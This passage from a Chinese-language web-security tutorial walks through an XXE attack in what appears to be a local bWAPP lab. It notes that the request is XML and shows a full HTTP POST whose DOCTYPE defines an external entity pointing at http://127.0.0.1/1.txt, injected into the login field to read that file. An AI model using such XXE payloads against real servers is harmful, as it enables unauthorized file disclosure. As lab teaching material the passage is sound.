 &lt;reset&gt;&lt;login&gt;bee&lt;/login&gt;&lt;secret&gt;Any bugs?&lt;/secret&gt;&lt;/reset&gt;
</code></pre>

<p>经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。</p>

<pre><code class="language-plain">POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: &quot;Chromium&quot;;v=&quot;95&quot;, &quot;;Not A Brand&quot;;v=&quot;99&quot;
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: &quot;macOS&quot;
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;!DOCTYPE reset[
&lt;!ENTITY Info SYSTEM &quot;http://127.0.0.1/1.txt&quot;&gt;
]&gt;

&lt;reset&gt;&lt;login&gt;&amp;Info;&lt;/login&gt;&lt;secret&gt;Any bugs?&lt;/secret&gt;&lt;/reset&gt;
</code></pre>

<p>我们可以利用之前学习的知识，将请求中的XML数据进行修改，利用XXE攻击获取到1.txt文件中的内容。</p>

<p><img src="assets/04a5ce2da57e41888185158afdd72030.jpg" alt="图片" /></p>
